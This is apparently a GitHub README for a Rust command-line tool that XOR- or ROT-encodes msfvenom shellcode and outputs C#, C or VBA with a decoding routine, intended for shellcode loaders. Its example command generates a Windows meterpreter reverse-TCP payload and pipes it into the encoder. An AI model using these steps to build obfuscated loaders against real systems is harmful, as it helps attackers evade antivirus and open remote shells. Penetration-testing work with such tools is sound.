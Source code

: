 # shellcode-encoder

CLI utility to encode msfvenom generated shellcode.

Reads shellcode in hex format from stdin, and then performs selected encoding and outputs encoded shellcode with a decoding routine.

Intended use is for shellcode loaders.

Supported encodings:
- XOR
- ROT

Supported output formats:
- C# (csharp)
- C (c)
- VBA (vbapplication)

## Installation

```sh
cargo install --git https://github.com/aol1306/shellcode-encoder
```

## Example usage

Encode shellcode from msfvenom using XOR operation (`output[i] = shellcode[i] ^ 17`):

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=1337 -f hex | shellcode-encoder -f csharp -e xor -k 17
```

View help:

```sh
shellcode-encoder --help
```

## Tips

- Any bin file can be easily converted to the required hex format by piping it to `hexdump -ve '1/1 "%.2x"'`.